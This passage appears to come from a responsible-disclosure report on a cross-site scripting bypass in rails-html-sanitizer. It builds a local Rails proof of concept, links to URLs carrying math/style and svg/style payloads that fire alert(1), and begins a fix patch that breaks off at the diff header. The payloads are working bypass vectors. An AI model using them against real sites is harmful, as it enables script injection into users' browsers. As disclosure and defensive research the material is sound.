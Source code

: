 ```
cat << EOF > ./app/controllers/poc2_controller.rb
class Poc2Controller < ApplicationController
  def index
    @name = params[:name] || "put your name here"
  end
end
EOF


cat << EOF > ./app/views/poc2/index.html.erb
<h1> Hello <%= sanitize @name, tags: ["math", "style"] %> </h1>
<br>
PoC with a sanitized, reflected parameter 'name' for which 'math' annd 'style' tags are allowed.
<br>
<%= link_to "Go to PoC", "/poc2?name=<math><style><img src=x onerror=alert(1)></style><math>" %>
<br>
<br>
Using: rails-html-sanitizer <%= Rails::Html::Sanitizer::VERSION %>
EOF
```

With the following `Makefile` you can build and run the application

```
.PHONY: build
build:
	docker build -t local/railspoc:latest .

.PHONY: run
run:
	docker run -it --rm -p 127.0.0.1:8888:3000 local/railspoc:latest
```

Now you have a Rails application with two routes `/poc1` and `/poc2` running locally. Visit:
- [http://localhost:8888/poc1?name=%3Csvg%3E%3Cstyle%3E%3Cscript%3Ealert(1)%3C/script%3E%3C/style%3E%3Csvg%3E](http://localhost:8888/poc1?name=%3Csvg%3E%3Cstyle%3E%3Cscript%3Ealert(1)%3C/script%3E%3C/style%3E%3Csvg%3E)
- [http://localhost:8888/poc2?name=%3Cmath%3E%3Cstyle%3E%3Cimg%20src=x%20onerror=alert(1)%3E%3C/style%3E%3Cmath%3E](http://localhost:8888/poc2?name=%3Cmath%3E%3Cstyle%3E%3Cimg%20src=x%20onerror=alert(1)%3E%3C/style%3E%3Cmath%3E)

See the secreenshot attached for what it will roughly look like. Both alerts should be executed.

## Suggestion for Fix

Along the lines of the fix for [1530898](https://hackerone.com/reports/1530898), the following patch could prevent both vectors.
I've just added the two new bad combinations to the check in `remove_safelist_tag_combinations` and adjusted the test to cover all of them too.
In all cases, the `style` tag gets removed from the whitelist, which breaks to PoC:

```
From f78df36644520c57770132a607cedafeec19d796 Mon Sep 17 00:00:00 2001
From: Dominic Breuker <dominic.breuker@protonmail.com>
Date: Mon, 1 Aug 2022 22:57:10 +0200
Subject: [PATCH] disallow safelist combinations of svg+style or math+style

---
 lib/rails/html/sanitizer.rb | 12 ++++++++++--
 test/sanitizer_test.rb      | 35 ++++++++++++++++++++---------------
 2 files changed, 30 insertions(+), 17 deletions(-)

diff --git a/lib/rails/html/sanitizer.rb b/lib/rails/html/sanitizer.rb
index 97503c8..10cd7c4 100644
--- a/lib/rails/html/sanitizer.rb
+++ b/lib/rails/html/sanitizer.rb
```